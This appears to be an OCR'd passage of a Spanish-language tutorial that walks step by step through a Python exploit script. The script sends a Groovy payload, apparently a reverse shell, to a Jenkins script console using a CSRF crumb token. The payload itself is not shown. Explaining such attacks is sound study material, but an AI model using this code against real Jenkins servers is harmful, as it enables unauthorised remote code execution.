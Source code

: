 1. **Headers:**  
    Este diccionario incluye:
    
    - El tipo de contenido, que es `application/x-www-form-urlencoded` (necesario para peticiones POST que envían datos en formato clave-valor).
        
    - El token `Jenkins-Crumb` que se obtuvo en el paso anterior.
        
    
    ```python
    headers = {
        'content-Type': 'application/x-www-form-urlencoded',
        'Jenkins-Crumb': crumb
    }
    ```
    
2. **Data:**  
    Aquí se define el parámetro `script` que contendrá el payload Groovy:
    
    ```python
    data = {
        'script': groovy_payload
    }
    ```
    

---

## 9. Envío de la Petición POST para Ejecutar el Payload

Se utiliza el método `post` de la sesión de `requests` para enviar la petición al endpoint del script:

```python
try:
    respuesta = session.post(script_url, headers=headers, data=data)
    
    if respuesta.status_code == 200:
        print("Script ejecutado con éxito")
    else:
        print(f"Error al ejecutar la reverse shell: {respuesta.status_code}")
        print(respuesta.text)
except:
    print("Error al enviar la solicitud al servidor")
```

**Puntos clave:**

- **Bloque try/except:**  
    Se usa para capturar posibles excepciones en el envío de la petición, por ejemplo, si el servidor no está disponible.
    
- **Verificación del código de estado:**
    
    - Si `status_code` es 200, se asume que la petición fue exitosa y se imprime un mensaje de éxito.
        
    - Si no es 200, se imprime el código de error y, opcionalmente, el contenido de la respuesta para mayor información.
        
